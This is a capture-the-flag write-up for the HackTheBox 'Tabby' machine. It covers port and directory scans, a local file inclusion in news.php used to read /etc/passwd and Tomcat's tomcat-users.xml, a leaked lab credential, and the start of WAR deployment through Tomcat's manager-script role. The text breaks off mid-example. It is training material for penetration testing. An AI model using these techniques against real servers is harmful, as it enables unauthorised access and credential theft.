# [EASY] Tabby <br/>




# <span style="color:red">Introduction</span> 

**Tabby**, labeled as "*Easy*" on HackTheBox, proved to be a challenging yet instructive endeavor. 
<br />
Initial enumeration revealed a **Local File Inclusion** (LFI) vulnerability, permitting access to the critical **tomcat-users.xml** file, which held login credentials for the "**tomcat**" user. Exploiting this, "**manager-script**" access was gained, facilitating the upload of a Web Application Resource (**WAR**) reverse shell and leading to user escalation as "**ash**." The culmination was a creative use of **LXD** container technology for privilege escalation to root. 
<br />
This experience underscored the significance of exhaustive enumeration, vulnerability exploitation, and diverse attack vectors, significantly enhancing expertise in LFI, credential acquisition, and container-based privilege escalation within cybersecurity.


# <span style="color:red">Box Info</span>

<table>
  <thead>
    <tr>
      <th>Name</th>
    <th style="text-align: right"><a href="https://affiliate.hackthebox.com/box?box=tabby" target="_blank" style="font-size: xx-large; : 0 0 5px #ffffff, 0 0 3px #ffffff; color: #ffffff">
      Tabby
      </a><br /></th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <td>OS</td>
      <td style="text-align: right"><a style="font-size: x-large; : 0 0 5px #ffffff, 0 0 7px #ffffff; color: #2020E">
      Linux
      </a></td>
    </tr>
     <tr>
      <td>1st User blood</td>
      <td style="text-align: right"><a href="https://www.hackthebox.eu/home/users/profile/310032"></a></td>
    </tr>
    <tr>
      <td>1st System blood</td>
      <td style="text-align: right"><a href="https://www.hackthebox.eu/home/users/profile/310032"></a></td>
    </tr>
  </tbody>
</table>


# <span style="color:red">Enuemeration</span>
## Scanning for open ports using Nmap

Port 22, 80, and 8080 is open:
<br />

```
└─$ sudo nmap -sT -p- --min-rate 5000 -oN openportscan 10.10.10.194     
<snip>
Not shown: 52193 filtered tcp ports (no-response), 13339 closed tcp ports (conn-refused)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
8080/tcp open  http-proxy

Nmap done: 1 IP address (1 host up) scanned in 204.62 seconds
```

## Scanning for verions using Nmap

On port 8080 **Apache Tomcat** is running.


>**Apache Tomcat**: Tomcat is primarily an application server and servlet container designed for running Java-based web applications. It is used to execute Java Servlets, JavaServer Pages (JSP), and other Java web technologies.

>**Apache HTTP Server (HTTPD)**: Apache HTTP Server, often referred to as Apache HTTPD or just Apache, is a general-purpose web server designed to serve static content, handle HTTP requests, and support various web server features. It's highly configurable and extensible.

**Tomcat** provides **dynamic content** by employing Java-based logic, while the **Apache web server**'s primary purpose is to simply serve up **static content** such as HTML, images, audio and text.
<br />

```
└─$ sudo nmap -sVC -p 22,80,8080 -oN vrsion_scan -vv 10.10.10.194
<snip>
PORT     STATE SERVICE REASON         VERSION
22/tcp   open  ssh     syn-ack ttl 63 OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 453c341435562395d6834e26dec65bd9 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDv5dlPNfENa5t2oe/3IuN3fRk9WZkyP83WGvRByWfBtj3aJH1wjpPJMUTuELccEyNDXaUnsbrhgH76eGVQAyF56DnY3QxWlt82MgHTJWDwdt4hKMDLNKlt+i+sElqhYwXPYYWfuApFKiAUr+KGvnk9xJrhZ9/bAp+rW84LyeJOSZ8iqPVAdcjve5As1O+qcSAUfIHlZGRzkVuUuOq2wxUvegKsYnmKWUZW1E/fRq3tJbqJ5Z0JwDklN21HR4dmM7/VTHQ/AaTl/JnQxOLFUlryXAFbjgLa1SDOTBDOG72j2/II2hdeMOKN8YZN9DHgt6qKiyn0wJvSE2nddC2BbnGzamJlnQaXOpSb3+WDHP+JMxQJQrRxFoG4R6X2c0rx+yM5XnYHur9cQXC9fp+lkxQ8TtkMijbPlS2umFYcd9WrMdtEbSeKbaozi9YwbR9MQh8zU2cBc7T9p3395HAWt/wCcK9a61XrQY/XDr5OSF2MI5ESVG9e0t8jG9Q0opFo19U=
|   256 89793a9c88b05cce4b79b102234b44a6 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBDeYRLCeSORNbRhDh42glSCZCYQXeOAM2EKxfk5bjXecQyV5W7DYsEqMkFgd76xwdGtQtNVcfTyXeLxyk+lp9HE=
|   256 1ee7b955dd258f7256e88e65d519b08d (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIKHA/3Dphu1SUgMA6qPzqzm6lH2Cuh0exaIRQqi4ST8y
80/tcp   open  http    syn-ack ttl 63 Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Mega Hosting
|_http-favicon: Unknown favicon MD5: 338ABBB5EA8D80B9869555ECA253D49D
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
8080/tcp open  http    syn-ack ttl 63 Apache Tomcat
| http-methods: 
|_  Supported Methods: OPTIONS GET HEAD POST
|_http-title: Apache Tomcat
|_http-open-proxy: Proxy might be redirecting requests
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
<snip>
```

## Vulnerability script scan using Nmap

Nmap found nothing vulnerable from the box:
<br />

```
└─$ sudo nmap --script vuln -p 22,80,8080 -vv -oN vulnerability scan 10.10.10.194
<snip>
PORT     STATE SERVICE    REASON
22/tcp   open  ssh        syn-ack ttl 63
80/tcp   open  http       syn-ack ttl 63
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
|_http-csrf: Couldn't find any CSRF vulnerabilities.
|_http-litespeed-sourcecode-download: Request with null byte did not work. This web server might not be vulnerable
|_http-jsonp-detection: Couldn't find any JSONP endpoints.
|_http-wordpress-users: [Error] Wordpress installation was not found. We couldn't find wp-login.php
|_http-vuln-cve2017-1001000: ERROR: Script execution failed (use -d to debug)
|_http-dombased-xss: Couldn't find any DOM based XSS.
8080/tcp open  http-proxy syn-ack ttl 63
|_http-wordpress-users: [Error] Wordpress installation was not found. We couldn't find wp-login.php
|_http-litespeed-sourcecode-download: Request with null byte did not work. This web server might not be vulnerable
| http-slowloris-check: 
|   VULNERABLE:
|   Slowloris DOS attack
|     State: LIKELY VULNERABLE
|     IDs:  CVE:CVE-2007-6750
|       Slowloris tries to keep many connections to the target web server open and hold
|       them open as long as possible.  It accomplishes this by opening connections to
|       the target web server and sending a partial request. By doing so, it starves
|       the http server's resources causing Denial Of Service.
|       
|     Disclosure date: 2009-09-17
|     References:
|       http://ha.ckers.org/slowloris/
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2007-6750
| http-enum: 
|   /examples/: Sample scripts
|   /manager/html/upload: Apache Tomcat (401 )
|   /manager/html: Apache Tomcat (401 )
|_  /docs/: Potentially interesting folder
|_http-jsonp-detection: Couldn't find any JSONP endpoints.
|_http-iis-webdav-vuln: WebDAV is DISABLED. Server is not currently vulnerable.
<snip>
```

## Feroxbuster on port 80

Feroxbuster found path to **news.php**, **files**, and **assets**:
<br />
```
└─$ feroxbuster -u http://megahosting.htb -n -x php,html -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt 

 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.10.0
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://megahosting.htb
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
 👌  Status Codes          │ All Status Codes!
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.10.0
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 💲  Extensions            │ [php, html]
 🏁  HTTP methods          │ [GET]
 🚫  Do Not Recurse        │ true
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
[####################] - 0s         0/0[--------------------] - 0s         0/6[--------------------] - 1s         0/661638  1s      found:0       errors:0  [>-------------------] - 1s         1/661638  5d      found:0       errors:0    404      GET        9l       31w      277c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
403      GET        9l       28w      280c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
200      GET        9l       80w     3918c http://megahosting.htb/assets/js/jquery.easypiechart.min.js
200      GET      111l      179w     1713c http://megahosting.htb/assets/css/responsive.css
200      GET      536l      897w     8362c http://megahosting.htb/assets/css/fonticons.css
200      GET      822l     1392w    13934c http://megahosting.htb/assets/css/style.css
200      GET        7l      400w    35601c http://megahosting.htb/assets/js/vendor/bootstrap.min.js
200      GET       85l      868w    67760c http://megahosting.htb/assets/js/plugins.js
200      GET        5l     1421w   113498c http://megahosting.htb/assets/css/bootstrap.min.css
200      GET       60l       80w     1510c http://megahosting.htb/assets/fonts/stylesheet.css
200      GET      128l      251w     3282c http://megahosting.htb/assets/js/main.js
200      GET        0l        0w        0c http://megahosting.htb/news.php
200      GET       17l       68w     5223c http://megahosting.htb/logo.png
301      GET        9l       28w      318c http://megahosting.htb/files => http://megahosting.htb/files/
200      GET      373l      938w    14175c http://megahosting.htb/index.php
200      GET       11l      391w    20106c http://megahosting.htb/assets/js/vendor/modernizr-2.8.3-respond-1.4.2.min.js
200      GET       14l      302w    28935c http://megahosting.htb/assets/js/jquery.mixitup.min.js
200      GET       12l      689w    40858c http://megahosting.htb/assets/js/vendor/isotope.min.js
200      GET        0l        0w    95931c http://megahosting.htb/assets/js/vendor/jquery-1.11.2.min.js
200      GET        0l        0w   128648c http://megahosting.htb/assets/css/plugins.css
200      GET        0l        0w    26711c http://megahosting.htb/assets/css/font-awesome.min.css
200      GET      373l      938w    14175c http://megahosting.htb/
301      GET        9l       28w      319c http://megahosting.htb/assets => http://megahosting.htb/assets/
```

## Feroxbuster on port 8080

Path **manager** and **host-manager** requires login information which I don't have. 
<br />

```
└─$ feroxbuster -u http://megahosting.htb:8080 -n -x php,html -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt 

 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.10.0
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://megahosting.htb:8080
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
 👌  Status Codes          │ All Status Codes!
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.10.0
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 💲  Extensions            │ [php, html]
 🏁  HTTP methods          │ [GET]
 🚫  Do Not Recurse        │ true
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
404      GET        1l       63w        -c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
302      GET        0l        0w        0c http://megahosting.htb:8080/manager/ => http://megahosting.htb:8080/manager/html
401      GET       63l      291w     2499c http://megahosting.htb:8080/manager/html
302      GET        0l        0w        0c http://megahosting.htb:8080/host-manager/ => http://megahosting.htb:8080/host-manager/html
401      GET       54l      241w     2044c http://megahosting.htb:8080/host-manager/html
200      GET       29l      211w     1895c http://megahosting.htb:8080/
200      GET       29l      211w     1895c http://megahosting.htb:8080/index.html
302      GET        0l        0w        0c http://megahosting.htb:8080/docs => http://megahosting.htb:8080/docs/
302      GET        0l        0w        0c http://megahosting.htb:8080/examples => http://megahosting.htb:8080/examples/
302      GET        0l        0w        0c http://megahosting.htb:8080/manager => http://megahosting.htb:8080/manager/
```

## Gobuster subdomain enumeration
Nothing was found from subdomain enumeration.
<br/>

# <span style="color:red">Enumeration on port 80 and 8080</span>

## megahosting.htb (tomcat)

Seems like default tomcat index page is showing.
<br />
Index page reveals path to tomcat, which is **/usr/share/tomcat9**. It also reveals path to **tomcat-users.xml** and version of tomcat. 
<br />


path **/manager** requires credentials:
<br />


Luckily, I discovered **Tomcat version**:
<br /> 


<br />

Knowing tomcat9 is running, I attempted various attacks, but nothing went successfully. 

## megahosting.htb (http)

This seems to be a hosting website that provides dedicated servers:
<br />

<br />

Hostname **megahosting.htb** is found. Let's add this to **/etc/hosts**.
<br />


<br />
Looking around the webpage, I found **news.php** accepts arbitrary statements:
<br /> 
*http://megahosting.htb/news.php?file=statement#callus*
<br />

<br />
I fuzzed the parameter through Brup Suite and found **LFI Vulnerability**:
<br />


# <span style="color:red">Getting shell as tomcat</span>

## LFI on port 80

With LFI vulnerability availble, I planned to just read credential from **tomcat-users.xml** file so that I can login to tomcat. 
<br />
### /etc/passwd
I tested if **LFI** is working by attempting to access **/etc/passwd** and it seems like there are two users: **ash** and **syslog**
<br />


### Understanding file_get_contents

When getting files through php there are two main methods:
<br />
- file_get_content()
- include() 
<br />
> include() is used to execute PHP files and include their output in the calling script, while file_get_contents() is used to read the contents of files as plain text. The choice between them depends on your specific use case. If you need to include and execute PHP code, use include(). If you only need to read the contents of a file, use file_get_contents().
<br />

Megahosting.htb seems to using **file_get_content** method which makes it no use for me to attempt uploading such thing as php reverseshell (No possbility in code execution, I only can extract plain text dat from this LFI vulnerability)
<br />



### /usr/share/tomcat9/etc/tomcat-users.xml

> NOTE: For security reasons, using the manager webapp is restricted to users with role "manager-gui". The host-manager webapp is restricted to users with role "admin-gui". Users are defined in /etc/tomcat9/tomcat-users.xml.

On port 8080, index page says **tomcat-users.xml** is located in /etc/tomcat9 but apparently it actually wasn't, so I had to do some goolging and testing to find out where it is located. 
<br />
Soon, I figured out it is located in **/usr/share/tomcat9/etc/tomcat-users.xml**.
<br />



<br />
Knowing, **tomcat-users.xml** file location, now I have credential to login as tomcat. 
<br />
```xml
<user username="tomcat" password="$3cureP4s5w0rd123!" roles="admin-gui,manager-script"/>    
```

### Attempting login
I tried signing in to **/manager** but credential I found above wouldnt' work. 
<br />
Looking at the roles again, I found I don't have credential for **manager** but have credential to **admin-gui** and **manager-script**. 
<br />
I was able to sign in to **host-manger**, but nothing much could be done from here:
<br />


### manager-script
>In Apache Tomcat, the manager-script role is one of the built-in roles used for configuring access control to the Tomcat Manager application. The Tomcat Manager application provides a web-based interface for managing and deploying web applications (WAR files) on a Tomcat server. It's a convenient tool for administrators and developers to deploy, undeploy, and manage web applications without directly accessing the server's file system.

>The manager-script role specifically grants the user or group associated with this role permission to access the Tomcat Manager application via HTTP POST requests. These POST requests are used for tasks such as deploying new web applications (WAR files) to the server or reloading existing ones.

Basically, with **manager-script role**, I am able to upload **WAR files** through web browser or automated scripts such as **curl**. 
<br />

**manager-script** role is extremely powerful so the privilege is configured cautiously through **tomcat-users.xml**, which credential that I already have. 
<br />
I can access the role through web browser as such:
<br />


# <span style="color:red">Spawning a web shell through manager-script</span>

## How to deplay WAR file using curl
Deploy WAR file requests can be made using tools like `curl` or scripting languages like Python with libraries such as `requests`. 
<br />
1. **Deploy a Web Application (WAR File):**

   This example deploys a web application from a local WAR file to Tomcat. Replace `username`, `password`, `localhost`, `8080`, `myapp`, and `/path/to/your/app.war` with your own values.
<br />

   ```bash
   curl --user username:password -T /path/to/your/app.war http://localhost:8080/manager/text/deploy?path=/myapp
 ```
<br />

1. **Undeploy a Web Application:**

   This example undeploys a web application by specifying its context path. Replace `username`, `password`, `localhost`, `8080`, and `myapp` with your own values.
   <br />

   ```bash
